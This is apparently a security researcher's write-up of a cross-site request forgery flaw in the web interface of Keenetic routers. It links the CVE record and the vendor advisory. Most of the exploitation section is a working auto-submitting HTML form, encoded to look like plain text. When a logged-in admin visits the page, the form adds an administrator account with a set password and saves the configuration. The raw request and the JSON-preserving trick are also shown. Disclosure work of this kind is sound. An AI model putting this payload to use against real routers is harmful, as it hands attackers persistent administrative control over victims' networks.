 ## CVE-2025-56009

### Some notes

Well, this is a simple CSRF vulnerability. There were no any CSRF protections (and `Content-Type` was not validated), so the main challenge was keeping the request body valid JSON while the `Content-Type` was `text/plain`. Since this is the only API route the router sends requests to, it was very easy to find this vulnerability.

### Exploitation

Exploitation for this vulnerability is standart: we need to create an auto-submitting form on our site pointing to the vulnerable endpoint:

```html
<html>
    <body>
        <form
            action="https://XXX.keenetic.name/rci/"
            method="POST"
            enctype="text/plain"
        >
            <input
                type="hidden"
                name='&#91;&#123;"user"&#58;&#123;"name"&#58;"test"&#44;"tag"&#58;&#91;&#123;"tag"&#58;"cli"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"http"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"readonly"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"ipsec&#45;l2tp"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"ipsec&#45;xauth"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"http&#45;proxy"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"opt"&#44;"no"&#58;false&#125;&#93;&#44;"password"&#58;"123"&#125;&#125;&#44;&#123;"system"&#58;&#123;"configuration"&#58;&#123;"save"&#58;&#123;&#125;&#125;&#125;,"1'
                value='1":1}&#93;'
            />
            <input type="submit" value="Submit request" />
        </form>
        <script>
            history.pushState("", "", "/");
            document.forms[0].submit();
        </script>
    </body>
</html>
```

When a victim visits the page, the browser submits the form and sends the POST request to `/rci/` endpoint, adding a new admin user:

```
POST /rci/ HTTP/1.1
Host: XXX.keenetic.name
Cookie: <cookie>
Content-Length: 305
...
Content-Type: text/plain
...

[{"user":{"name":"test","tag":[{"tag":"cli","no":false},{"tag":"http","no":false},{"tag":"readonly","no":false},{"tag":"ipsec-l2tp","no":false},{"tag":"ipsec-xauth","no":false},{"tag":"http-proxy","no":false},{"tag":"opt","no":false}],"password":"test_pass"}},{"system":{"configuration":{"save":{}}},"1=1":1}]
```

Of course, we need to know the admin panel URl (may be local, `192.168.0.1`, or global, `XXX.keenetic.name`).

Note the `{"1=1":1}` trick here: it preserves both valid JSON structure and the POST body structure simultaneously while using `text/plain`.

### Additional

As I said earlier, targets like routers make good targets for searching of web vulrenabilities: they're often overlooked, but flaws in them can have an impact, as in this case.

### Links

-   CVE record: https://www.cve.org/CVERecord?id=CVE-2025-56009
-   Keenetic security advisory: https://keenetic.com/global/security#october-2025-web-api-vulnerabilities
